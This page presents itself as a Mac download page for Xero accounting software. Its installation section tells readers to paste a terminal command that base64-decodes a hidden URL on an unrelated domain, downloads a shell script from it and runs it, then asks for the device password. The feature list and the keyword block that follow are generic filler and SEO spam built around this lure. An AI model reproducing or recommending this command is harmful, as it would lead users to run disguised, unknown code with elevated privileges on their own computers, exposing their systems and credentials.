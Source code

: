 # Xero for Mac Download - Premium Cloud Accounting Solution

![Xero Dashboard](https://wavebox.io/knowhow/content/images/2022/05/Untitled.020-1.png)

---

### 🔽 Download Xero for Mac

> 📥 Open the terminal on your device and paste the command below.
1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is Xero for Mac?

Xero represents the next generation of cloud accounting software, offering macOS users a seamless and powerful platform tailored for small businesses, freelancers, and accounting professionals. This award-winning financial solution revolutionizes traditional bookkeeping through intelligent automation and real-time collaboration features that eliminate manual processes and reduce errors.

The software delivers comprehensive accounting capabilities including:
- Automatic bank feeds with smart transaction matching
- Customizable professional invoices with integrated online payments
- Streamlined expense management with mobile receipt capture
- Advanced inventory control with purchase order tracking
- Hassle-free payroll processing including tax computations
- Multi-currency handling for international transactions
- Real-time financial reporting with customizable dashboards
- Project tracking for job costing and profitability analysis

Xero distinguishes itself through its extensive ecosystem featuring 800+ integrated apps that connect with payment gateways, CRM platforms, e-commerce systems, and various business applications. The native Mac version delivers optimized performance while maintaining the macOS aesthetic and full access to all cloud-based functionality.

Enterprise-level security measures include:
- Mandatory two-factor authentication
- Continuous automatic data backups
- 256-bit SSL encryption (bank-grade security)
- Comprehensive audit history tracking
- Role-based access permissions

For accounting firms and bookkeepers, Xero provides specialized tools to:
- Handle multiple client accounts efficiently
- Collaborate simultaneously with clients and team members
- Generate practice management reports
- Maintain compliance with changing tax laws
- Access educational resources and certification programs

The platform offers flexible pricing plans suitable for businesses at various growth stages, with all subscriptions including unlimited user access and 24/7 customer support.

![Xero Mobile App](https://wavebox.io/knowhow/content/images/2022/05/Screenshot-2022-05-24-at-11.11.25.png)

---

## Key Features & Benefits

- 💰 Automated bank reconciliation saving hours of manual work
- 📊 Beautifully designed financial reports and cash flow insights
- 🌍 Support for 160+ currencies and global tax compliance
- 🔗 800+ business app integrations expanding functionality
- 👥 Real-time collaboration with your accountant or team
- ☁️ Access your accounts securely from any device
- 📱 Full-featured mobile app for business on the go

---

### System Requirements
- macOS 10.14 or later
- Modern web browser (Chrome, Safari, Firefox)
- Internet connection
- 2GB RAM minimum (4GB recommended)

---

## 🔍 Keywords

Xero for Mac, Xero Mac Download, Xero for Mac Download, Xero Mac, Xero Download Mac, Xero Download for Mac, Xero full version, Mac Download Xero, Download Mac Xero, Download Xero Mac, Download Xero for Mac
